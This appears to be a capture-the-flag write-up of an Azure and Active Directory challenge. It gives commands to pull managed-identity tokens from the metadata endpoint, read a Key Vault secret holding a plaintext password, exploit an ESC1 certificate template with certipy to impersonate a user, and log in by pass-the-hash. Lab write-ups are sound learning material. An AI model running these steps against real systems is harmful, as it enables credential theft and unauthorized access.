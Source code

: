 # Active Directory

Finding a place to start was a little difficult. I do not remember how many different commands I ran first, but the next interesting one was:

```bash
response=$(curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' -H Metadata:true -s)
access_token=$(echo $response | python -c 'import sys, json; print (json.load(sys.stdin)["access_token"])')
echo The managed identities for Azure resources access token is $access_token
```

This is used to get a beared token for management resources, and running an 
HTTP request to 

```
https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.KeyVault/vaults/northpole-ssh-certs-kv?api-version=2022-07-01
```
gave me the following result:


```json
{
    "id": "/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.KeyVault/vaults/northpole-ssh-certs-kv",
    "name": "northpole-ssh-certs-kv",
    "type": "Microsoft.KeyVault/vaults",
    "location": "eastus",
    "tags": {},
    "systemData": {
        "createdBy": "thomas@sanshhc.onmicrosoft.com",
        "createdByType": "User",
        "createdAt": "2023-11-12T01:47:13.059Z",
        "lastModifiedBy": "thomas@sanshhc.onmicrosoft.com",
        "lastModifiedByType": "User",
        "lastModifiedAt": "2023-11-12T01:50:52.742Z"
    },
    "properties": {
        "sku": {
            "family": "A",
            "name": "standard"
        },
        "tenantId": "90a38eda-4006-4dd5-924c-6ca55cacc14d",
        "accessPolicies": [
            {
                "tenantId": "90a38eda-4006-4dd5-924c-6ca55cacc14d",
                "objectId": "0bc7ae9d-292d-4742-8830-68d12469d759",
                "permissions": {
                    "keys": [
                        "all"
                    ],
                    "secrets": [
                        "all"
                    ],
                    "certificates": [
                        "all"
                    ],
                    "storage": [
                        "all"
                    ]
                }
            },
            {
                "tenantId": "90a38eda-4006-4dd5-924c-6ca55cacc14d",
                "objectId": "1b202351-8c85-46f1-81f8-5528e92eb7ce",
                "permissions": {
                    "secrets": [
                        "get"
                    ]
                }
            }
        ],
        "enabledForDeployment": false,
        "enableSoftDelete": true,
        "softDeleteRetentionInDays": 90,
        "vaultUri": "https://northpole-ssh-certs-kv.vault.azure.net/",
        "provisioningState": "Succeeded",
        "publicNetworkAccess": "Enabled"
    }
}
```

The interesting part being the uri for key vault. Changing up the previous
command a little bit, it was possible to get an access token for the vault:


```bash
response=$(curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fvault.azure.net' -H Metadata:true -s)
access_token=$(echo $response | python -c 'import sys, json; print (json.load(sys.stdin)["access_token"])')
echo The managed identities for Azure resources access token is $access_token
```

With this token, I could get information on the secrets from:

```
https://northpole-it-kv.vault.azure.net/secrets/?api-version=7.4
```

And the result was:

```json
{
    "value": [
        {
            "id": "https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript",
            "attributes": {
                "enabled": true,
                "created": 1699564823,
                "updated": 1699564823,
                "recoveryLevel": "Recoverable+Purgeable",
                "recoverableDays": 90
            },
            "tags": {}
        }
    ],
    "nextLink": null
}
```

The tmpAddUserScript seemed interesting, so I asked for more info on it:

```
https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript?api-version=7.4
```

```json
{
    "value": "Import-Module ActiveDirectory; $UserName = \"elfy\"; $UserDomain = \"northpole.local\"; $UserUPN = \"$UserName@$UserDomain\"; $Password = ConvertTo-SecureString \"J4`ufC49/J4766\" -AsPlainText -Force; $DCIP = \"10.0.0.53\"; New-ADUser -UserPrincipalName $UserUPN -Name $UserName -GivenName $UserName -Surname \"\" -Enabled $true -AccountPassword $Password -Server $DCIP -PassThru",
    "id": "https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript/ec4db66008024699b19df44f5272248d",
    "attributes": {
        "enabled": true,
        "created": 1699564823,
        "updated": 1699564823,
        "recoveryLevel": "Recoverable+Purgeable",
        "recoverableDays": 90
    },
    "tags": {}
}
```

The convert to SecureString was executed in an unsafe manner, so the password
was saved as plaintext accidentally. This gave me the credentials:

```
Username: elfy
Password: J4`ufC49/J4766
```

First thing to note is, that the password needs an escape character to be used
in commands. I tried out different tools for hours and hours, and tried to 
look into ways to bypass the restriction on the folder through smbclient.
The username "wombleycube" was found through Get-ADUsers.
No luck. Finally, running certipy gave some promising results:

```bash
certipy find -u elfy@northpole.local -p J4\`ufC49/J4766 -dc-ip 10.0.0.53
```

Clipping the important part:

```json
    "Certificate Templates": {
        "0": {
            "Template Name": "NorthPoleUsers",
            "Display Name": "NorthPoleUsers",
            "Certificate Authorities": [
                "northpole-npdc01-CA"
            ],
            "Enabled": true,
            "Client Authentication": true,
            "Enrollment Agent": false,
            "Any Purpose": false,
            "Enrollee Supplies Subject": true,
            "Certificate Name Flag": [
                "EnrolleeSuppliesSubject"
            ],
            "Enrollment Flag": [
                "PublishToDs",
                "IncludeSymmetricAlgorithms"
            ],
            "Private Key Flag": [
                "ExportableKey"
            ],
            "Extended Key Usage": [
                "Encrypting File System",
                "Secure Email",
                "Client Authentication"
            ],
            "Requires Manager Approval": false,
            "Requires Key Archival": false,
            "Authorized Signatures Required": 0,
            "Validity Period": "1 year",
            "Renewal Period": "6 weeks",
            "Minimum RSA Key Length": 2048,
            "Permissions": {
                "Enrollment Permissions": {
                    "Enrollment Rights": [
                        "NORTHPOLE.LOCAL\\Domain Admins",
                        "NORTHPOLE.LOCAL\\Domain Users",
                        "NORTHPOLE.LOCAL\\Enterprise Admins"
                    ]
                },
                "Object Control Permissions": {
                    "Owner": "NORTHPOLE.LOCAL\\Enterprise Admins",
                    "Write Owner Principals": [
                        "NORTHPOLE.LOCAL\\Domain Admins",
                        "NORTHPOLE.LOCAL\\Enterprise Admins"
                    ],
                    "Write Dacl Principals": [
                        "NORTHPOLE.LOCAL\\Domain Admins",
                        "NORTHPOLE.LOCAL\\Enterprise Admins"
                    ],
                    "Write Property Principals": [
                        "NORTHPOLE.LOCAL\\Domain Admins",
                        "NORTHPOLE.LOCAL\\Enterprise Admins"
                    ]
                }
            },
            "[!] Vulnerabilities": {
                "ESC1": "'NORTHPOLE.LOCAL\\\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication"
            }
```

Seems like it's possible to get authentication for other users as Domain User,
which is not good but can be exploited here. I looked at some 
[documentation on Certipy](https://github.com/ly4k/Certipy), 
and finally found out how to possibly exploit this vulnerability. The command
I ended up with was:

```bash
certipy req -u elfy@northpole.local -p J4\`ufC49/J4766 -dc-ip 10.0.0.53 -template NorthPoleUsers -ca northpole-npdc01-CA -upn wombleycube@northpole.local -dns npdc01.northpole.local
```

Which gave me the file wombleycube_npdc01.pfx. This could further be used
to get the password hash for wombley with:

```bash
certipy auth -pfx wombleycube_npdc01.pfx -dc-ip 10.0.0.53
```

Now that we have the hash, it is just a matter of connecting to the AD with
it:

```bash
./smbclient.py northpole.local/wombleycube@10.0.0.53 -hashes aad3b435b51404eeaad3b43
```

Under FileShare, inside the folder super_secret_research:

```
alabaster@ssh-server-vm:~/impacket$ cat InstructionsForEnteringSatelliteGroundStation.txt
Note to self:

To enter the Satellite Ground Station (SGS), say the following into the speaker:

And he whispered, 'Now I shall be out of sight;
So through the valley and over the height.'
And he'll silently take his way.
```

Which gives me the flag for the challenge and the passphrase for the next part.